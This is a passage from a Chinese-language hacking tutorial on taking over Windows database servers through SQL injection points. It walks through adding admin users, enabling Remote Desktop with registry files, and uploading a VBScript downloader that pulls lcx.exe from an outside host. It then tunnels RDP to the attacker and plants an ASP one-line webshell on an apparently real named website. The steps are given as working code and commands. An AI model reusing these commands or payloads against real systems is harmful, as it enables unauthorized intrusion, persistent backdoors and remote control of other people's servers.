



执行“net user 1235 1235 /add”命令添加一个用户名和密码都是 1235 的用户，却没有成功。出来的错误提示由于是韩文看不懂，估计可能是密码太简单，不符合密码策略的要求。于是我再次执行“net user 1235 u8$#32at92o /add”，这回添加用户成功了，但登录时却出现了如图9所示的提示，密码明明是正确的啊，可我又看不懂错误提示是什么意思，真是郁闷了。

通过执行“net start”命令发现对方开启了 IPSEC Services 服务，难道是做了 IP 安全策略？执行“net stop policyagent”命令停掉 IPSEC Services 服务后再进行连接，错误提示依旧。我从微软官方下载了一个 Windows Server 2008 在虚拟机中进行安装，安装完成后使用 Windows Server 2008 的远程桌面连接程序居然连接上去了，如图10。


#### 2、数据库服务器在外网，能从外部访问，3389不能连接

不能连接可能有两种原因：一是改了端口，二是 Terminal Services 服务没有开启。先来说更改了端口（前提是远程桌面服务开启并且可以外部连接）的情况。其实我们通常所说的 3389，只是终端服务默认所使用的端口号，这个端口是可以更改的。如果改成了 1234，使用远程桌面连接时就要在 IP 地址后面写个冒号，再跟上修改后的端口号，比如 192.168.1.6:1234。因此如果管理员更改了连接的默认端口，我们只需要找出修改后的端口就可以连接了。寻找修改后的连接端口，如果是 Windows...Server 2003或更新的系统可以使用下面一条命令：

`reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp" /v PortNumber`

命令执行的结果如图11所示。


其中“PortNumber REG_DWORD”后面的那个数字就是端口号的十六进制表示形式，把它转换成十进制就是修改后的端口号了。但这个方法不是绝对准确，我就曾遇到过一次不准的情况。如果上面方法不行，或者数据库服务器是Windows Server 2000系统，还有一个方法，就是执行`netstat -an`命令查看对方计算机都开了哪些端口，看哪个端口比较可疑，就尝试进行连接。

如果数据库服务器没开启终端服务，那我们就要想办法帮对方开启了。开3389服务最简单的方法就是传一个注册表文件上去执行。对于Win2000系统，开启3389服务的注册表文件内容为：

```reg
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\netcache]
"Enabled"="0"
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]
"ShutdownWithoutLogon"="0"
[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer]
"EnableAdminTSRemote"=dword:00000001
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]
"TSEnabled"=dword:00000001
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermDD]
"Start"=dword:00000002
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService]
"Start"=dword:00000002
[HKEY_USERS\.DEFAULT\Keyboard Layout\Toggle]
"Hotkey"="1"
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp]
"PortNumber"=dword:00000D3D
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]
"PortNumber"=dword:00000D3D
```

把上面代码保存为3389.reg，上传到数据库服务器上，然后执行`regedit /s 3389.reg`把3389.reg中的内容导入到注册表中。对于Win2000系统，开启3389后需要重启系统才能生效，等到服务器重启后我们就可以3389登录了。

对于Win2003系统，开启3389服务的注册表文件内容为：

```reg
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]
"fDenyTSConnections"=dword:00000000
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp]
"PortNumber"=dword:00000D3D
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]
"PortNumber"=dword:00000D3D
```

把上面代码保存为3389.reg，上传到数据库服务器上，执行命令`REG IMPORT 3389.reg`后就开启了3389服务。Win2003系统开启3389服务不需要重启，我们现在就可以使用远程桌面进行连接了。

那怎样把3389.reg上传到服务器上呢？利用NBSI就可以办到。打开NBSI，切换到执行命令的界面，在右面有一个“文本文件上传”的地方，在“本地文件”栏选择本机的3389.reg，在“保存位置”栏填`C:\3.reg`，也就是上传到服务器的C盘根目录下，名字为3.reg，保存方式使用默认的“覆盖”，点“上传”按钮后回显窗口就会显示3389.reg的内容，执行命令`dir c:\`，发现3.reg已经上传成功了，如图12。


#### 3、数据库服务器在内网

如果数据库服务器在内网，即使开了3389我们也无法直接连接（管理员做了端口转发的除外）。这时候要控制服务器有两种途径：一是进行端口转发，二是上传反弹木马。

通过端口转发我们就可以像外网电脑那样通过远程桌面来控制内网电脑了。端口转发用到的工具是lcx.exe。首先把lcx.exe上传到数据库服务器上，需要用到一个上传的vbs脚本，脚本代码为：

```vbscript
On Error Resume Next
Dim iRemote, iLocal
iLocal = LCase(WScript.Arguments(1))
iRemote = LCase(WScript.Arguments(0))
Set xPost = CreateObject("Microsoft.XMLHTTP")
xPost.Open "GET", iRemote, 0
xPost.Send()
Set sGet = CreateObject("ADODB.Stream")
sGet.Mode = 3
sGet.Type = 1
sGet.Open()
sGet.Write(xPost.responseBody)
sGet.SaveToFile iLocal, 2
```

把它保存为down.vbs，通过NBSI上传到数据库服务器上，假设保存为`c:\down.vbs`，执行：

`cscript c:\down.vbs http://www.hackerxfiles.net/lcx.exe c:\lcx.exe`

就可以把lcx.exe下载到数据库服务器上了。其中`http://www.hackerxfiles.net/lcx.exe`里的IP就是你的外网IP地址，`c:\lcx.exe`是保存在数据库服务器的C盘根目录下，名字为lcx.exe。

此时在你的电脑上执行`lcx.exe -listen 51 3388`，这样本机就开始监听51和3388端口并等待别的电脑的连接，如图13。

我们在注入点执行如下命令：

`c:\lcx.exe -slave 你的IP 51 127.0.0.1 3389`

其中“你的IP”就是你电脑的外网IP地址。命令执行后如果不出意外的话，你本机的lcx监听窗口就有了反应，显示`Accept a Client on port 51 from x.x.x.x`，也就是接收到数据库服务器对本机51端口的连接，如图14。





这时候使用远程桌面连接`127.0.0.1:3388`，成功看到了登录界面，剩下的就是登录了，如图15。其实本机监听的3388端口可以随便更改，只要没被占用就行，本机连接的时候连接“127.0.0.1:监听的端口号”就行了。要想上传远控木马的话，使用上面的上传vbs脚本就可以搞定了。



### 4、数据库服务器开不了3389，也没有诸如pcAnywhere、RealVNC等远程管理软件

由于种种原因，3389没能成功开启，又没有其它管理服务器的软件可以利用，只有上传木马控制服务器这一条路了。至于怎么上传，在情况3中已经说了，这里就不再重复了。

## 三、dbo权限注入点拿webshell

如果碰到dbo权限的注入点，可以列目录，并且web服务器和数据库服务器是同一台主机，就可以通过备份拿到webshell了。比如我已经找到了一个符合条件的注入点`http://nationalacademyname.com/faculty_detail.asp?id=71`，如图16、图17。



为什么一定要能列目录呢？因为在dbo权限下我们是通过差异备份或日志备份得到webshell，而备份需要网站的物理路径，因此我们要通过列目录来找到网站的物理路径。列目录我使用的是啊D，当然使用NBSI也是可以的。啊D“相关工具”里的“目录查看”就是列目录用的，默认的检测目录是`c:\`，点“开始检测”就列出了C盘的根目录，双击一个目录后会自动列出其下级目录。

目录那么多，难道要一个目录一个目录地翻吗？其实找web绝对路径也有一些规律，在看到www、web、site、wanzhan、net这些目录时要特别注意，有和网站域名相同或相近的目录也要特别注意，最后别忘了IIS默认的网站目录。



假如通过列目录我们感觉`d:\web\`可能就是网站的绝对路径，那如何进一步确认呢？可以通过目录确认。比如注入点是：

`http://www.xxx.com/ZocboElem/StudyPds/News_view.asp?idx=787`

链接中有`ZocboElem`、`StudyPds`这两个目录，那么在`d:\web\`下如果也有`ZocboElem`这个目录，并且`d:\web\ZocboElem`下还有`StudyPds`这个目录，几乎就可以肯定`d:\web\`是网站的绝对路径。

只通过目录确认还不能完全确定一个目录就是网站的绝对路径，还要经过文件确认。假如在你怀疑是网站绝对路径的目录下通过列目录发现有`a.html`这个文件，而通过`http://xxx.com/a.html`也能访问到这个文件，就能更加肯定网站绝对路径了。而且你测试访问的文件名越特殊，测试的文件越多，准确性也就越高。

经过一番查找，发现注入点`http://nationalacademyname.com/faculty_detail.asp?id=71`所在网站的物理路径是：

`C:\Inetpub\vhosts\nationalacademyname.com\httpdocs\`

下面就来准备拿webshell，用到的工具是GetWebShell陆羽增强版v1.1。在“注入地址”栏填上注入点地址，“插入代码”填一句话木马代码，我们使用`<%execute(request("xxx"))%>`，“备份地址”填：

`C:\Inetpub\vhosts\nationalacademyname.com\httpdocs\xxx.asp`

也就是备份到`http://nationalacademyname.com`网站的根目录下，文件名为xxx.asp，如图18。

都填好后，按“第一步”，出来`http://nationalacademyname.com`的页面后再按“第二步”，如图19。看到页面刷新一下似的，重新显示网站页面后再点“第三步”，页面刷新后再点“第四步”，页面再次刷新后点“Drop table”，还是等页面刷新后再点“一键备份”，看到“结束操作...”的提示就是备份完成了。在点按钮的过程中一定要慢一点。

通过啊D列目录发现一句话已经备份上去了，如图20。使用lake2的eval最小马发送端连接一句话`http://nationalacademyname.com/xxx.asp`，密码为xxx，连接成功，成功得到了webshell，如图21。







